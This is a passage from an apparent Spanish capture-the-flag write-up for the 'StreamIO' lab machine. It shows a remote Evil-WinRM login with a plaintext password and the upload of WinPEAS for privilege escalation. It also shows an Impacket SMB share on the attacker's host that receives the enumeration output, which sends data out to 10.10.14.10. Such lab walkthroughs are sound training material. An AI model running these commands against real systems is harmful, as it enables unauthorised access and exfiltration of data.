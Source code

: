 Lo tiene, entonces podemos conectarnos de forma remota con <a href="https://github.com/Hackplayers/evil-winrm" target="_blank">Evil-WinRM</a>
```ruby
❯ evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_dem_girls2@yahoo.com'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\nikk37\Documents> whoami
streamio\nikk37
```

### Escalada de Privilegios [+](#priv) {#priv}

Mirando lo básico del usuario no disponemos de mucho, veamos que nos reporta <a href="https://github.com/carlospolop/PEASS-ng" target="_blank">WinPeas.exe</a>, como estamos usando Evil-WinRM podemos usar el comando que tiene incluido para subir archivos `upload`
```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> upload /opt/winpeas.exe
Info: Uploading /opt/winpeas.exe to C:\Users\nikk37\Documents\winpeas.exe

                                                             
Data: 2581844 bytes of 2581844 bytes copied

Info: Upload successful!
```

Antes de ejecutarlo, existen ciertas ocasiones en las que, al reportar tanta información se pierde en el trayecto, tendremos que almacenarlo en un archivo para analizarlo con calma

Con smbserver.py podemos compartir un recurso a nivel de red que este sincronizado con nuestro directorio actual, y como es windows 10 hay que dar el soporte a la versión de Samba
```ruby
❯ smbserver.py carpeta $(pwd) -smb2support
Impacket v0.10.1.dev1 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ahora con total seguridad, lo ejecutamos y lo enviamos al recurso compartido y esperamos a que termine
```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> ./winpeas.exe > \\10.10.14.10\carpeta\winpeas.txt
```

Una vez que termine miramos lo que descubrio Winpeas.exe

```   
                ((((((((((((((((((((((((((((((((
         (((((((((((((((((((((((((((((((((((((((((((
       ((((((((((((((**********/##########.((((((((((((   
     (((((((((((/********************/#######.((((((((((
     (((((((.******************/@@@@@/****######.(((((((((
     (((((.********************@@@@@@@@@@/***,####.(((((((((
     ((((.********************/@@@@@%@@@@/********##(((((((((
     .((############*********/%@@@@@@@@@/************.(((((((
     .(##################(/******/@@@@@/***************.(((((
     .(#########################(/**********************.((((
     .(##############################(/*****************.((((
     .(###################################(/************.((((
     .(#######################################(*********.((((
     .(#######(,.***.,(###################(..***.*******.((((
```